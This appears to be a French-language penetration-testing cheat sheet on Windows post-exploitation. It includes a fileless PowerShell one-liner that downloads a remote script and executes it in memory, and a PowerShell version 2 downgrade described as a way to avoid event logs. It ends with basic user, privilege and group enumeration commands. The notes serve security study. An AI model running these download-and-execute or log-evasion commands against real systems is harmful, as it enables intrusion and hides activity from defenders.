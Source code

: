 
## Charger script en mémoire #Fileless

```
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"
```

## Downgrade version powershell (pas de logs dans event-viewr)


```powershell-session
powershell.exe -version 2
```


---

# 4. Identifier les users / groupes


## Identifier le user actuel

```
whoami
```

## Identifier les privilèges du user actuel

```
whoami /priv
```

[[3. Users Privileges]]

## Identifier les groupes auxquels appartient user actuel

```
whoami /groups
```

[[4. Groups Privileges]]

## Identifier tous les comptes utilisateur locaux

```cmd
net user
```

```powershell
Get-ChildItem -Recurse -Path C:\Users\
```

## Identifier tous les groupes locaux

